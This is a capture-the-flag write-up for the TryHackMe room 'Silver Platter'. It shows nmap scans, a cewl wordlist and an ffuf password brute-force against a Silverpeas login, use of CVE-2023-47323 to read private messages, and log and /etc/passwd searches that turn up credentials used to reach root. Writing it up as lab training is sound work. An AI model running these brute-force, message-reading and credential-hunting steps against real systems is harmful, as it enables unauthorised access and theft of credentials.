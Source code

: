 ```yaml
---
title: "TryHackMe: Silver Platter"
author: c3l1kd
categories: [TryHackMe]
tags: [web, brute-force, ffuf, idor, ssh, adm, log]
render_with_liquid: false
img_path: /images/tryhackme_silver_platter/
image:
  path: room_image.webp
---
```


**Silver Platter** was a simple room where we discovered a **Silverpeas** installation along with a username. We brute-forced the user's password using a custom wordlist to gain access to **Silverpeas**, and by exploiting a vulnerability in it that allows an authenticated user to read all the messages, we uncovered **SSH** credentials in one of them.

Using the discovered credentials to gain a shell, we found a password in the logs and used it to escalate to the **root** user, completing the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/silverplatter){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.191.243
Nmap scan report for 10.10.191.243
Host is up (0.089s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **8080** (`HTTP`)

### Web 80

Checking `http://10.10.191.243/`, we find a static site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

### Web 8080

Checking `http://10.10.191.243:8080/`, we simply receive a `404` error.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

## Shell as tim

### Discovering Silverpeas

In the **Contact** section on port **80** (`http://10.10.191.243/#contact`), we find an interesting message mentioning `Silverpeas` and a username: `scr1ptkiddy`.

![Web 80 Contact](web_80_contact.webp){: width="1200" height="600"}

`Silverpeas` typically runs on `:8080/silverpeas` and visiting `http://10.10.191.243:8080/silverpeas`, we find the login page for it.

![Web 8080 Silverpeas](web_8080_silverpeas.webp){: width="1200" height="600"}

### Brute-forcing the Credentials

The contact page provides a username, and the challenge room states a password policy that disallows breached passwords. So, instead of using a wordlist like `rockyou.txt`, we can generate a custom wordlist from the text in the web application on port **80** using `cewl`:

```console
$ cewl http://10.10.191.243/ > passwords.txt
```

Now, using this wordlist with `ffuf` to brute-force the password for the `scr1ptkiddy` user, we find it as `a[REDACTED]g`:

```console
$ ffuf -u 'http://10.10.191.243:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
...
a[REDACTED]g              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 2399ms]
```
{: .wrap }

### Reading Messages

Using the discovered credentials, we successfully log in as `scr1ptkiddy` to **Silverpeas**.

![Web 8080 Silverpeas Dashboard](web_8080_silverpeas_dashboard.webp){: width="1200" height="600"}

Searching for vulnerabilities in **Silverpeas**, we find [**CVE-2023-47323**](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the **SSH** credentials for the `tim` user.

![Web 8080 Silverpeas Messages](web_8080_silverpeas_messages.webp){: width="1200" height="600"}

Using these credentials, we can gain a shell and read the user flag at `/home/tim/user.txt`:

```console
$ ssh tim@10.10.191.243
...
tim@silver-platter:~$ wc -c user.txt
38 user.txt
```

## Shell as root

### Finding the Password

Checking the group memberships for the `tim` user, we see that the user belongs to the `adm` group:

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

As a member of the `adm` group, we can read most logs on the machine and searching the logs for passwords, we find one in `auth.log` for the **Silverpeas** database:

```console
tim@silver-platter:~$ grep -Ri 'password' /var/log 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Z[REDACTED]3/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```
{: .wrap }

Checking the `/etc/passwd` file, we see that, apart from the `tim` user, there is also the `tyler` user.

```console
tim@silver-platter:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

Testing the password we discovered for the `tyler` user, we successfully switch users:

```console
tim@silver-platter:~$ su - tyler
Password:
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

Checking `sudo` privileges for `tyler`, we see full access:

```console
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

With this, we can use `sudo` to escalate to the `root` user and read the root flag at `/root/root.txt` to complete the room.

```console
tyler@silver-platter:~$ sudo su -
root@silver-platter:~# wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>